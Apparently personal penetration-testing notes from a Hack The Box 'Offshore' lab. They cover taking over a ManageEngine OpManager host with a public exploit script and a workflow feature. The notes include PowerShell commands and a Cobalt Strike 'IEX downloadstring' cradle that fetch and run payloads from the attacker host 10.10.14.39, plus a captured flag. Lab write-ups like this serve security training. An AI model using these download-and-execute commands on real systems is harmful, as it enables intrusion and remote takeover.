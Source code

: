 
---
Going to setup Cobalt strike server and try to catch a beacon using exploit above

```powershell
proxychains python3 47255.py -u admin -t http://172.16.1.30 -p 'Zaq12wsx!' -c "powershell iwr http://10.10.14.39:8000/payload.exe"``
```

GUI home dashboard overview FLAG

We can do better than this:

OFFSHORE{sm3lls_so_g00d}


cmd /c powershell -c iwr -uri http:/10.10.14.39:8000/http_x64.exe

cmd /c powershell -c iwr -uri http:/10.10.14.39:8000




To set up the workflow in OPMANAGER

![[Penetration Testing v2/htb_Everything/htb_pro_Labs/offshore/2. 172.16.1.30 - CORP-MS01/screenshots/Pasted image 20231005134110.png]]
Setup Python3 HTTP server to check if i'm able to touch my kali machine, I was!
![[Penetration Testing v2/htb_Everything/htb_pro_Labs/offshore/2. 172.16.1.30 - CORP-MS01/screenshots/Pasted image 20231005134218.png]]
To execute the workflow
![[Penetration Testing v2/htb_Everything/htb_pro_Labs/offshore/2. 172.16.1.30 - CORP-MS01/screenshots/Pasted image 20231005134456.png]]
Workflow command used.
```powershell
# cmd /c executes and deleted the file.
cmd /c powershell -c iwr -uri http://10.10.14.39:8000/config.xml -outfile C:\Temp\config.xml

```
![[Penetration Testing v2/htb_Everything/htb_pro_Labs/offshore/2. 172.16.1.30 - CORP-MS01/screenshots/Pasted image 20231005134626.png]]
To Start Cobalt Strike Server - make sure to have the 10.10.14.39 ip hosting 
![[Penetration Testing v2/htb_Everything/htb_pro_Labs/offshore/2. 172.16.1.30 - CORP-MS01/screenshots/Pasted image 20231005135234.png]]
Testing Powershell - bitsadmin is what was used previously
![[Penetration Testing v2/htb_Everything/htb_pro_Labs/offshore/2. 172.16.1.30 - CORP-MS01/screenshots/Pasted image 20231005140207.png]]
Listener `/a`:
![[Penetration Testing v2/htb_Everything/htb_pro_Labs/offshore/2. 172.16.1.30 - CORP-MS01/screenshots/Pasted image 20231005140955.png]]
Command that gets spit out: 
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.14.39:80/a'))"

This one worked for me had to execute twice though.
On as System
![[Penetration Testing v2/htb_Everything/htb_pro_Labs/offshore/2. 172.16.1.30 - CORP-MS01/screenshots/Pasted image 20231005141231.png]]
`cd C:\\Users\Administrator\Desktop` and `download flag.txt`
![[Penetration Testing v2/htb_Everything/htb_pro_Labs/offshore/2. 172.16.1.30 - CORP-MS01/screenshots/Pasted image 20231005141913.png]]
Sync files 
![[Penetration Testing v2/htb_Everything/htb_pro_Labs/offshore/2. 172.16.1.30 - CORP-MS01/screenshots/Pasted image 20231005142103.png]]
Saved in.
